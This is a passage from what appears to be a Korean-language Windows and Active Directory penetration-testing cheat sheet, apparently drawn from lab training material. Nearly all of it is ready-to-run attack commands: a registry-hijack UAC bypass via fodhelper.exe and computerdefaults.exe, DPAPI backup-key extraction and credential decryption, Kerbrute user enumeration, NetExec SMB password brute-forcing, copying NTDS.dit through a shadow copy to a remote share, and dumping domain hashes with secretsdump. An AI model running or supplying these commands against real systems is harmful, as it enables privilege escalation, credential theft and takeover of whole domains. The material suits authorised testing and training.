 > reg add HKCU\Software\Classes\ms-settings\shell\open\command /f /ve /t REG_SZ /d "cmd.exe" && start fodhelper.exe

# computerdefaults.exe 사용:

> reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f && reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "cmd.exe" /f && start computerdefaults.exe
```

```
# 도메인 백업 키 추출(Windows)
.\SharpDPAPI.exe backupkey /nowrap

# 자격 증명 복호화(Windows)
.\SharpDPAPI.exe credentials /pvk:<Backup Key>
```
```
# 도메인 백업 키 추출(Linux)
impacket-dpapi backupkeys -t contoso.com/Administrator:'Password123!'@192.168.1.11 -dc-ip '192.168.1.11'

# 마스터 키 복호화(Linux)
impacket-dpapi masterkey -file masterkey -password 'x' -sid 'S-1-5-21-1706474481-3154330266-3610869000-500' -key 'x' -pvk backupkey.pvk

# 자격 증명 복호화(Linux)
impacket-dpapi credential -file vault -key '0x46cfb8b408aab4ae66ffbbbcf67ac03cfc919587e4ec39b9a936f6c93d92386603bb56b2d861be88495529dd74b23487ab78dcd98a1576b9b30ddc10ed379f2e'
```

<br/><br/>
## Attacking Active Directory & NTDS.dit
- 사용자 이름 목록 수동 생성 : [Username Anarchy](https://github.com/urbanadventurer/username-anarchy)<br/>
```$ git clone https://github.com/urbanadventurer/username-anarchy.git```<br/>
```$ ./username-anarchy -i ./usernames.txt > ./names.txt```

### Kerbrute를 사용하여 유효한 사용자 이름 열거
```$ ./kerbrute_linux_amd64 userenum --dc 10.129.201.57 --domain inlanefreight.local names.txt```

### brute-force attack with NetExec
```netexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt```

### Evil-WinRM, Vssadmin를 이용한 NTDS.dit 복사
```
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\192.168.1.1\Share
```

### NTDS.dit에서 해시 추출
```$ impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL```

### NetExec를 이용한 NTDS.dit 덤프
```$ netexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! -M ntdsutil```

<br/><br/>
## 자격증명 검색
```